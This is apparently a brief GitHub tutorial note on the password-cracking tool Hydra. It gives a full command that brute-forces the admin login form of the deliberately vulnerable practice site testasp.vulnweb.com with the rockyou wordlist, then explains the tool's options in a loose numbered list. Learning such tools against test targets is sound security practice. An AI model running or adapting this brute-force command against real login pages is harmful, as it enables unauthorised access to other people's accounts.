 # BruteForce_Hydra

Target: http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
Login name: admin

Command: 
## hydra -l admin -P /usr/share/wordlists/rockyou.txt http://testasp.vulnweb.com/ http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^User^&tfUPass=^PASS^:S=logout" -vV -f

How hydra is build:

[-l LOGIN|-L FILE] [-p PASS|-P FILE] [-u] [-f] [IP ADDRESS] [-s PORT] [MODULE] [URL]

1. [-l LOGIN|-L FILE]: Using login name or dictionary 
2. [-p PASS|-P FILE]: using password or dictionary
3. [-u]: every user  
4. [-f]: stop on first name
5. [IP ADDRESS]: IP-ADDRESS/WEBSITE 
6. [-s PORT]: Target Port
7. [MODULE]: Which section (ssh, http, etc.)
8. [URL]: WEB-ADDRESS
9. 
